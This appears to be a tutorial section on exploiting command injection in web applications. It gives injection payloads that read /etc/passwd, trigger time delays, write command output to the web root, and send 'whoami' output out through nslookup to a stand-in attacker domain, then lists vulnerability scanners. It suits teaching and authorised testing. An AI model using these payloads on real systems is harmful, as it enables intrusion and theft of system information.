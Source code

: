 # Mastering Command Injection Part 3

<h3>How To Exploit Command Injection?</h3>

Exploiting In-Band Command Injection

- Shell metacharacters: ```&```, ```&&```, ```|```, ```||```, ```;```, ```\n```, ``` ` ```, ```$()```.

- Concatenate another command
  
  - ```127.0.0.1 && cat /etc/passwd &``` or ```127.0.0.1 & cat /etc/passwd &``` or ```127.0.0.1 || cat /etc/passwd &```

Exploiting Blind Command Injection 

- Shell metacharacters: ```&```, ```&&```, ```|```, ```||```, ```;```, ```\n```, ``` ` ```, ```$()```.

- Trigger a time delay.

  - ```127.0.0.1 && sleep 10 &``` or ```127.0.0.1 && ping -c 10 127.0.0.1  &```

  - The sleep command only works for Unix system but the ping command works for both Unix and Windows.
 
  - Both commands works the same way, trigger a time delay of 10 seconds.
 
  - This example only proves that there is a blind command injection but doesn't prove it have any impact from the command injection.
 
To prove impact: Output the response of the command in the web root and retrieve the file directly using a browser.

- ```127.0.0.1 & whoami > /var/www/static/whoami.txt &```
 
  - running the "whoami" command, redirecting the output to "/var/www/static" (available to anyone using the application), saving it in a file "whoami.txt
   
- If you browse to this directory from your browser and see there is a file called "whoami.txt" then the command injection was successful and the context of the .txt will be the output from the "whoami" command.
 
Another way to prove both command injection exists and exploitable is to show impact to open an out-of-band channel back to a server you control.

- ```127.0.0.1 & nslookup kgi2ohoyw.web-attacker.com &```
 
    - To prove it is vulnerable to bind command injection: run the "nslookup" command on the server that you control "kgi2ohoyw.web-attacker.com".
   
    - Since you control that server, you would be monitoring the logs to see if the vulnerable application performed a lookup on your attacker controlled server.
   
      - If it did, then it's vulnerable to command injection. If it did not, then it's not.
     
- To prove impact for this method: need to run a command within a command.

  - ```127.0.0.1 & nslookup `whoami` .kgi2ohoyw.web-attacker.com &``` or ```127.0.0.1 & nslookup $whoami$ .kgi2ohoyw.web-attacker.com &```

    - run the "whoami" command. It appends the response as a subdomain of your attacker controlled domain, and then performs a "nslookup" of that sub domain.
   
<h2></h2>

<h3>Automated Exploitation Tools</h3>

Web Application Vulnerability Scanner (WAVS), any decent scanner should be able to scan for command injection.

- Burp scanner

- Arachni

- OWASP Zap

- Wapiti

- Acunetix

- W3af
